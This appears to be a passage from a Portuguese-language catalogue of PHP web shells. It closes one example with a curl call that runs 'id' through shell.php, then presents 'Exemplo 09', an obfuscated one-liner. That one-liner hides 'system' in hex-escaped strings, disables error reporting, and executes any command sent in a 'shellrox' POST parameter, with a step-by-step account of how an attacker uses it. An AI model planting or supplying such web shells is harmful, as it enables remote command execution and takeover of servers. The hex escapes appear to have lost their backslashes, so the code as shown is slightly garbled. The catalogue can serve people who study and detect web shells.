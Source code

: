 Variáveis: 

| REQUEST      | VALUE                      |
| ------------ | -------------------------- |
| $_REQUEST[0] | Comando que será executado |


Execução: 
```bash
curl -v 'http://localhost/shell.php?0=id'
```

---

#### EXEMPLO 09

**Debugar o código:**

Code:
```php
(error_reporting(0)).($_=[("x73x79").("x73")
.("x74x65x6d"),"x73x68x65x6c","x6cx72x6fx78"])
.($_[0]($_POST[$_[1].$_[2]]));
```

1. Desativa erros
- `(error_reporting(0))`: Desativa a exibição de erros PHP.
2. Cria array com comandos
- `$_ = [("x73x79").("x73") .("x74x65x6d"),"x73x68x65x6c","x6cx72x6fx78"]`:
    - Cria um array `$_` com três elementos.
    - Primeiro elemento: concatena strings para formar "system".
    - Segundo elemento: "shell".
    - Terceiro elemento: "rox" (provavelmente uma referência a "rox" -> Rock).
1. Executa comando
- `($_[0]($_POST[$_[1].$_[2]]))`:
    - Executa o comando "system" com o argumento passado em `$_POST[$_[1].$_[2]]`.
    - `$_[1].$_[2]` forma a string "shellrox".
    - `$_POST["shellrox"]` contém o comando a ser executado.

Funcionamento:
1. O atacante envia uma requisição HTTP POST com um parâmetro "shellrox" contendo o comando a ser executado.
2. O código PHP executa o comando "system" com o parâmetro recebido.

Functions:
- ERROR_REPORTING <https://secure.php.net/manual/pt_BR/function.error-reporting.php>
- STR_REPLACE <http://php.net/manual/pt_BR/function.str-replace.php>
- VARIABLE FUNCTIONS <http://php.net/manual/pt_BR/functions.variable-functions.php>
- SYSTEM <http://php.net/manual/pt_BR/function.system.php>
- $_POST <https://www.php.net/manual/en/reserved.variables.post.php>

Variáveis:

| REQUEST            | VALUE                      |
| ------------------ | -------------------------- |
| $_POST[‘shellrox’] | Comando que será executado |
